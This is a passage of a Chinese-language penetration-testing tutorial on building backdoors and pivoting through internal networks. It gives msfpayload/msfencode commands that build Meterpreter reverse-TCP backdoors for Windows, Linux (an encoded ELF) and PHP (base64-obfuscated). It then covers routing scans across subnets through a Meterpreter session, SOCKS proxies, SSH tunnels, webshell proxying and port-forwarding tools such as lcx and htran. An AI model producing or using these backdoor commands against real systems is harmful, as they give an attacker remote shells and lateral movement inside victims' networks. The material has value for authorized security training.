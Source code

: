 ```
msfpayload windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> X > shell.exe

```

3.2 Linux生成后门
-------------

* * *

```
msfpayload linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R | msfencode -t elf -o shell

```

3.3 php后门
---------

* * *

```
msfpayload php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> R | msfencode -e php/base64(可简单编码) -t raw -o base64php.php

```

获得meterpreter会话后，就是msf尽情施展的时候了，最常用的办法，添加路由表后，直接在会话中用msf的各种攻击模块进行扫描（注意，这里是可以进行跨网段扫描的）

如果单纯只是想要进行简单的代理工作，auxiliary/server/socks4a模块即可

这里讲到meterpreter所以多说一句，之前说的ssh隧道，如果嫌命令难得记，也可以简单的通过msf来建立tunnel

```
load meta_ssh
use multi/ssh/login_password
设置好参数后exploit即可获取会话进行代理操作

```

*   直接通过webshell和nginx反向代理

[http://zone.wooyun.org/content/11096](http://zone.wooyun.org/content/11096)

4. other tricks
---------------

* * *

python，ruby，perl等直接建立socks连接

lcx，tunna，htran等等进行端口流量转发

shadowsocks，tor，goagent等等

直接现成的小东西：[ssocks](http://sourceforge.net/projects/ssocks/?source=navbar)（一次比赛的时候死猫跟我推荐的）正向代理，反弹socks5均可

0x02 内网环境探测和信息收集
================
